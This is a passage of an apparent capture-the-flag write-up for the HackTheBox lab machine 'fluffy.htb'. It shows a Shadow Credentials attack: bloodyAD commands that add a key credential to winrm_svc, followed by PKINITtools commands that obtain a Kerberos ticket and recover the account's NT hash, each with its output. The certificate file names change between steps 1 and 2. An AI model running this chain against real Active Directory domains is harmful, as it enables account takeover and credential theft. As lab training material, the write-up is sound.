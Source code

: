 ## 8️⃣ Shadow Credentials Attack

**Method Used:** Shadow Credentials via msDS-KeyCredentialLink Manipulation

**Why this vector:** When Kerberoasting fails, Shadow Credentials provides an alternative authentication method by injecting certificates into target accounts.

**Commands and Steps:**

**Step 1: Add Shadow Credentials to winrm_svc**
```bash
bloodyAD --host 10.10.11.69 -u p.agila -p pr********303 -d fluffy.htb add shadowCredentials winrm_svc
```
{: .nolineno }

**Results:**
```
[+] KeyCredential generated with following sha256 of RSA key: a2d2715899c4068332c2746f16c84c95c7b73888416fb254ecb121d3a37f5fc2
[+] Saved PEM certificate at path: GKnCwTQh_cert.pem
[+] Saved PEM private key at path: GKnCwTQh_priv.pem
```
{: .nolineno }

**Step 2: Obtain TGT using PKINITtools**
```bash
python3 /opt/Tools/PKINITtools/gettgtpkinit.py -cert-pem osO1I1kz_cert.pem -key-pem osO1I1kz_priv.pem fluffy.htb/winrm_svc osO1I1kz.ccache
```
{: .nolineno }

**Results:**
```bash
2025-09-01 01:59:36,648 minikerberos INFO     Loading certificate and key from file
2025-09-01 01:59:36,672 minikerberos INFO     Requesting TGT
2025-08-31 18:59:41,406 minikerberos INFO     AS-REP encryption key (you might need this later):
2025-08-31 18:59:41,407 minikerberos INFO     62421566b15555a58ca5cc47230da4af8847f24b6ea61a8991bf1f0985ec95c0
2025-08-31 18:59:41,434 minikerberos INFO     Saved TGT to file
```
{: .nolineno }

**Step 3: Extract NTLM Hash**
```bash
python3 /opt/Tools/PKINITtools/getnthash.py -key 62421566b15555a58ca5cc47230da4af8847f24b6ea61a8991bf1f0985ec95c0 fluffy.htb/winrm_svc
```
{: .nolineno }

**Result:**
```bash
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
33bd09dcd69760*********875767
```
{: .nolineno }
